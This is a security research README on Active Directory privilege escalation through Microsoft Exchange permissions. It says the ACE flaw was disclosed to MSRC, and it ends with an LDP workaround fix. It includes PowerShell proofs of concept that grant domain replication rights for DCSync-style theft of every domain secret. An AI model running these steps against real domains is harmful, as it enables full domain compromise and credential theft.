 # Exchange-AD-Privesc

This repository will provide a few techniques and scripts regarding the impact of Microsoft Exchange deployment on Active Directory security.

## General considerations

For pentesters looking to take control of an AD domain, Exchange is a valid intermediary target. The servers are much less secured than domain controllers by default and the control groups are distinct in the usual permissions models, which provides numerous alternative targets.
They are also more difficult to migrate and business critical, so organizations often adopt a slower migration process for Exchange than for AD and do not specifically harden the servers.

Exchange deployment on an Active Directory domain is an interesting case. Many attributes and classes are added to the schema, security groups are created and DACL on some AD objects are heavily modified. 

Basically you can select among 3 permissions models:

* RBAC Split (most common)
* Shared permissions (default)
* AD Split

Particularly, DACLs for RBAC Split and Shared models are enumerated here: https://technet.microsoft.com/en-us/library/ee681663(v=exchg.150).aspx .


High value targets:

* Exchange Trusted Subsystem and Exchange Windows Permissions groups, which are trustees for many ACE added during deployment on AD objects.
* Exchange servers: they are members of Exchange Trusted Subsystem and Exchange Windows Permissions groups. They can be compromised using many more techniques than domain controllers: local administrators domain accounts, Kerberos delegation, SMB relay, RODC replication, etc. The usual stuff.
* Organization admins: they are part of the local administrators group on Exchange servers. They also have full control on the OU containing the Exchange security groups. They can launch service/psexec/runas/... under computer identity/NetworkService/LocalSystem to control Exchange Trusted Subsystem and Exchange Windows Permissions SIDs.

## 1. Domain object DACL privilege escalation

DISCLAIMER: This has been responsibly disclosed to MSRC in October 2017 and after a few back and forth emails, they decided it was working as intended and would not fix it.

* Description of the issue

When preparing Exchange 2010/2013/2016 installation in shared permissions (default) or RBAC split permissions, some ACEs are positioned on the domain object for the Exchange Windows Permissions security group.
This happens during the "Setup /PrepareDomain" command.

The two following ACEs on the domain object are missing the INHERIT_ONLY_ACE bit in the Flags field:

Account	ACE type	Inheritance	Permissions	On property/ Applies to	Comments
Exchange Windows Permissions	Allow ACE	All	WriteDACL	/ user	
Exchange Windows Permissions	Allow ACE	All	WriteDACL	/ inetOrgPerson	


* Technical consequence

The Allow permission to WriteDACL is granted to the Trustee on the domain object itself and not only its user/inetOrgPerson descendants, effectively giving complete control on it to anyone with the Exchange Windows Permissions SID in its token.

* Expected behavior

The Allow permission to WriteDACL should only be given on child objects matching the INHERITED_OBJECT_TYPE Guid. It is supposed to only apply to user or inetOrgPerson classes.
This is also incoherent with the other INHERITED_OBJECT_TYPE ACEs on the domain object for the same Trustee, which all have the INHERIT_ONLY_ACE bit in the Flags field.


* Security Consequence

A privilege escalation is possible from the "Exchange Windows permissions" (EWP) security group to compromise the entire prepared Active Directory domain. Just set the Ds-Replication-Get-Changes-All extended right on the domain object. This is enough to use a DRSUAPI replication tool ala DCSync to get all the domain secrets.

You can control the SID of the EWP group from "Organization management", from "Account operators" or from any Exchange server.
Interestingly, the RBAC system is proxified through EWP so a privilege escalation is possible from the "Active Directory Permissions" RBAC role to compromise the entire prepared Active Directory domain.


* Proof of concept 1: Set-Acl (or with DSA console)

From an Organization Management member account, add yourself to Exchange Windows Permissions.
This is possible by default (see the above technet page).

```
$id = [Security.Principal.WindowsIdentity]::GetCurrent()
$user = Get-ADUser -Identity $id.User
Add-ADGroupMember -Identity "Exchange Windows Permissions" -Members $user
```

RELOG to update groups in your token then give yourself Ds-Replication-Get-Changes-All extended right on the domain object.

```
$acl = get-acl "ad:DC=test,DC=local"
$id = [Security.Principal.WindowsIdentity]::GetCurrent()
$user = Get-ADUser -Identity $id.User
$sid = new-object System.Security.Principal.SecurityIdentifier $user.SID
# rightsGuid for the extended right Ds-Replication-Get-Changes-All
$objectguid = new-object Guid  1131f6ad-9c07-11d1-f79f-00c04fc2dcd2
$identity = [System.Security.Principal.IdentityReference] $sid
$adRights = [System.DirectoryServices.ActiveDirectoryRights] "ExtendedRight"
$type = [System.Security.AccessControl.AccessControlType] "Allow"
$inheritanceType = [System.DirectoryServices.ActiveDirectorySecurityInheritance] "None"
$ace = new-object System.DirectoryServices.ActiveDirectoryAccessRule $identity,$adRights,$type,$objectGuid,$inheritanceType
$acl.AddAccessRule($ace)
Set-acl -aclobject $acl "ad:DC=test,DC=com"
```


* Proof of concept 2: RBAC Add-ADPermission

The following Powershell code, executed by a user account with the RBAC role "Active Directory Permissions", sets the Ds-Replication-Get-Changes-All extended right on the domain object.

```
$id = [Security.Principal.WindowsIdentity]::GetCurrent()
Add-ADPermission "DC=test,DC=local" -User $id.Name -ExtendedRights Ds-Replication-Get-Changes-All
```

* Workaround fix

LDP is the recommended tool. Bind as a Domain Admin account with the usual precautions, as you will change the domain object DACL.
Locate the 2 faulty ACE in the DACL of the domain object: you can sort by Trustee to see Exchange Windows Permissions, there will only be 2 ACE with "Write DACL,..." Rights.
Check the 'Inherit only' box in their ACE flags field. 


